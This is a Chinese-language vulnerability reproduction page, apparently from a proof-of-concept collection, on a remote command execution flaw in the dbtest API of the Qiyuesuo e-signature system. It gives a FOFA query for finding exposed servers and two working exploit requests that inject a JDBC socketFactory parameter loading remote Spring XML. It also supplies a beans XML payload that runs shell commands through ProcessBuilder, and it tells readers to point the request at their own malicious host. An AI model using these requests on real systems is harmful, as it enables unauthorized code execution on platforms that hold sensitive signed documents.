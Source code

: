 ## 1.契约锁电子签章系统简介

契约锁电子签章系统

## 2.漏洞描述

契约锁电子签章系统dbtest接口存在远程命令执行漏洞

CVE编号:

CNNVD编号:

CNVD编号:

## 3.影响版本

契约锁电子签章系统

![契约锁电子签章系统dbtest接口存在远程命令执行漏洞](%E5%A5%91%E7%BA%A6%E9%94%81%E7%94%B5%E5%AD%90%E7%AD%BE%E7%AB%A0%E7%B3%BB%E7%BB%9Fdbtest%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.assets/640.png)契约锁电子签章系统dbtest接口存在远程命令执行漏洞

## 4.fofa查询语句

app="契约锁-电子签署平台"

## 5.漏洞复现

漏洞数据包如下两个：

```
GET /api/setup/dbtest?db=POSTGRESQL&host=localhost&port=5511&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fdxugqgrfejgjdekb.2bi2sq.dnslog.cn%2F1%2Exml HTTP/1.1
Host: xx.xx.xx.xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
```

```
GET /setup/dbtest?db=POSTGRESQL&host=localhost&port=5511&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fdxugqgrfejgjdekb.2bi2sq.dnslog.cn%2F1%2Exml HTTP/1.1
Host: xx.xx.xx.xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

存在漏洞会成功出发dnslog平台记录

![图片](%E5%A5%91%E7%BA%A6%E9%94%81%E7%94%B5%E5%AD%90%E7%AD%BE%E7%AB%A0%E7%B3%BB%E7%BB%9Fdbtest%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.assets/640-1750301390444-3.jpeg)

可以在把dnslog替换成自己的恶意代码地址，在自己的网站上搭建如下文件，用接口访问该文件即可：

```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>/bin/sh</value>
            <value>-c</value>
            <value>touch /tmp/test</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

## 